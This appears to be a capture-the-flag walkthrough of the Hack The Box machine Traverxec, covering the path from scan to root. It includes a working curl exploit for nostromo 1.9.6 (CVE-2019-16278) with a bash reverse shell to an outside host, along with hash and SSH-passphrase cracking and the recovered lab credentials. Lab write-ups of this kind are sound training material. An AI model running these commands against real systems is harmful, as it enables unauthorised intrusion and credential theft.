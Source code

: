 # [Traverxec](https://app.hackthebox.com/machines/Traverxec)


```bash
nmap -sT -p- --min-rate 5000 10.10.10.165 -Pn 
```
![Alt text](img/image.png)

Let's do greater nmap for 22,80 open ports.


```bash
nmap -sC -sV -A -p22,80 10.10.10.165 -Pn 
```

![Alt text](img/image-1.png)


Here, I just learn that HTTP port is running via software called and version of this like ' nostromo 1.9.6 '

Let's search exploit for this.

I found this (CVE-2019-16278)

![Alt text](img/image-2.png)


I did this by manually, let's look at this.

I send POST request like below.

![Alt text](img/image-3.png)


And I got result on reverse connection.

![Alt text](img/image-4.png)


Now, it's time to reverse shell, below one is our reverse shell payload, let's look at this.

```bash
curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.6/1337 0>&1"'
```

![Alt text](img/image-5.png)


I got reverse shell.

![Alt text](img/image-6.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-7.png)


After enumeration of linux machine, I find interesint file that contains username and hashed password on this directory (/var/nostromo/conf/.htpasswd)

![Alt text](img/image-8.png)


Let's try to crack this hash.

```bash
hashcat -m 500 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```

![Alt text](img/image-9.png)


Now we can see that password is Nowonly4me


david: Nowonly4me

This credentials is just for `10.10.10.165/~david/` endpoint.

Another interesting directory, I find that '/home/david/public_www/protected-file-area', here we have file, let's send to our machine.

Then, I see that, I need to enter this username and password to get this file.

```bash
wget http://david:Nowonly4me@10.10.10.165/~david/protected-file-area/backup-ssh-identity-files.tgz
```

And we extract like below.

```bash
tar -zxvf backup-ssh-identity-files.tgz 
```

![Alt text](img/image-10.png)


Let's change privilege and try to login via SSH.
I see that it asks passphrase from me, let's do `ssh2john` tool to find **passphrase**.

```bash
ssh2john home/david/.ssh/id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


![Alt text](img/image-11.png)


passphrase is **hunter**.

I changed file permission of id_rsa file and connect to machine.

```bash
chmod 600 home/david/.ssh/id_rsa 
ssh -i home/david/.ssh/id_rsa david@10.10.10.165 
```


user.txt

![Alt text](img/image-12.png)



For privilege escalation, I find interesting path (/home/david/bin), there is bash script which runs via **sudo** privileges, that's why I checked [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/)


![Alt text](img/image-13.png)


I need to run as below.

```bash
stty rows 4
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
#!/bin/sh
```


root.txt

![Alt text](img/image-14.png)  




